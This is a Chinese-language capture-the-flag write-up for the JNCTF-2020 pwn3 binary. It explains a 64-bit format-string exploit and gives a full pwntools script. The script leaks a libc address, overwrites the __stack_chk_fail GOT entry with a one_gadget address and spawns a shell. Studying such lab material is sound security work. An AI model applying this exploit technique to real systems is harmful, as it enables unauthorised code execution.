 # JNCTF-2020 : jnctf_2020_pwn3

## **【原理】**
64位格式化字符串

## **【目的】**
getshell

## **【环境】**
Ubuntu 16.04

## **【工具】**
Pwntools,ida,gdb,one_gadget

## **【步骤】**

​          先通过数组溢出实现修改加密机会次数，再通过格式化字符串漏洞泄露栈上的一些敏感地址从而获取libc的基地址，再通过格式化字符串漏洞修改___stack_chk_fail got表上的内容，覆盖为onegadget的地址，最后通过一下破坏cannary的栈溢出来实现getshell。


```python

from pwn import*
context.log_level = 'debug'
p = process('./jnctf_2020_pwn3')
elf = ELF('./jnctf_2020_pwn3')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
one_gadget = [0x45226,0x4527a,0xf0364,0xf1207]
stack_fail_got = elf.got['__stack_chk_fail']
def game1(name,payload):
	p.sendlineafter('choice:\n','1')
	p.sendafter('name?\n',name)
	p.sendafter('message:\n',payload)
def game2(payload):
	p.sendlineafter('choice:\n','2')
	p.sendafter('message:\n',payload)
def game3(payload):
	p.sendlineafter('choice:\n','3')
	p.sendafter('message:\n',payload)
def getpayload(oneset,i):
	payload = '%'+str(oneset)+'c'+'%8$hhn'
	payload = payload.ljust(0x10,'a')
	payload += p64(stack_fail_got+i)
	return payload
def pr(str1,addr):
	log.success(str1+'=====>'+hex(addr))
game1('aaaa','a'*0x140+p64(0x100))

payload = '--%15$p'
game2(payload)
p.recvuntil('--')
__libc_start_main = int(p.recv(14),16) - 240
libcbase = __libc_start_main - libc.symbols['__libc_start_main']
one = libcbase + one_gadget[0]
pr('__stack_chk_fail',stack_fail_got)
pr('__libc_start_main',__libc_start_main)
pr('libcbase',libcbase)
pr('one',one)
oneset = []
while one!=0:
	oneset.append(one&0xff)
	one = one >> 8
for i in range(len(oneset)):
	game2(getpayload(oneset[i],i))
game3('a')
#gdb.attach(p,'b *0x4009E0')
p.interactive()



```

## **【总结】**
需要有一定的思路